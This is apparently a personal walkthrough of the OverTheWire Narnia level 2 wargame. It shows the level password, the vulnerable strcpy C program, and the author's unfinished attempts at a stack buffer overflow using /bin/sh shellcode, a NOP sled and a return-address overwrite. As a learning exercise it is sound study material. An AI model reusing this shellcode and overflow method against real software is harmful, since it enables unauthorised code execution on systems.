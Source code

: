 # Narnia 2

Password: `nairiepecu`

C Code:

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

Looks to be a proper stack overflow, abusing the `strcpy` command (which doesnt check destination buffer length). My initial thoughts are that if I can overflow buffer so it overwrites the next instruction after strcpy (which will be where the instruction pointer is, and so the next instruction will be run) I can bounce into my own shellcode. Maybe just prefix the shellcode from narnia1 with a sufficient set of `no-op` codes so its lined up correctly?

Something like `./narnia2 "$(echo -e '\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68')"`, with the shellcode prefixed with multiple `\x90` to get into the right position.

The buffer is 128 chars, so after 128 we have overloaded the buffer and start overwriting the main code. The strcpy command is around 56 32bit words down, so we need to overwrite by a further 1152 bytes...I think. I gave this a go, but it wasn't successful. 

However I did discover that if I overflowed the buffer by 136 characters, the final four characters overwrote the return address from the main function. From this, after a bit of further research, I worked out that the approach might be to include the shell code in the buffer, then jump to it by overflowing the return address. Hmm.

At this point I spent some time doing some learning. The following three videos from LiveOverflow were very helpful (they're in a row as part of the Binary Hacking playlist):

- [First Stack Buffer Overflow to modify Variable - bin 0x0C](https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13)
- [Buffer Overflows can Redirect Program Execution - bin 0x0D](https://www.youtube.com/watch?v=8QzOC8HfOqU&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=14)
- [First Exploit! Buffer Overflow with Shellcode - bin 0x0E](https://www.youtube.com/watch?v=HSlhY4Uy8SA&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=15)

On top of that, the original article by AlephOne on stack overflows fills in the missing pieces, and is excellent:

[Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html#article)

## Steps

The buffer size is 128. I am going to insert the shellcode from narnia1 I came up with, prefixed with NOP instructions and post fixed with a return address that attempts to force the program to jump back into the buffer when it returns from main.

Running GDB with the following string:

ABCDEFGHIJKLMNOPQRSTUVWXYZ67890123456789AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Causes ret to be overflown with XXXX. So we can set the ret address to whatever by replacing XXXX in our dev string with something else.

Breakpointing after the strcpy shows the first address of the buffer (containing ABCD in reverse order) is 0xffffd5a8.

Our shellcode, \xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68, is in reality 28 characters long.

So perhaps shellcode + padding + address?

Address is \xa8\xd5\xff\xff

Padding is 132 - 28 = 104, so AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Final string is \xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa8\xd5\xff\xff

```
./narnia2 $(echo -e "\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa8\xd5\xff\xff")
```

This results in a segfault :( Back to GDB...

Maybe prefix with NOPs?

```
./narnia2 $(echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\xc0\xd5\xff\xff")
```

After more investigating, seemed to work if I bumped the address to b8 rather than a8 (so 16 bytes ahead?), and included the nops to slide into my shellcode. However still got no output and a segfault. Maybe combine with the echo/cat trick?